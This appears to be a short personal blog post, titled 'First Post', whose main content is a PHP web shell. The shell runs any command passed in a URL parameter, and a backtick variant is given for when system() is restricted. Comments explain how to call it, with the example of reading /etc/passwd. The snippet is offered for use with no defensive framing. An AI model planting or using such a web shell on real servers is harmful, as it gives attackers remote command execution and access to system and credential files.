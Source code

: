 ```yaml
---
layout: post
title: "First Post"
date: 2019-05-14
---
```


This is only my first post.

Going to end up with lots of code.

```php
<?php echo system($_GET["cmd"]); ?>

# then request vulnerable page with the command you want to run in the parameters
# http://HOST/vuln.php?cmd=cat /etc/passwd

# if the system command is restricted, you might can use backticks to execute system commands
<?php $cmd=$_GET["cmd"]; echo `$cmd`; ?>

```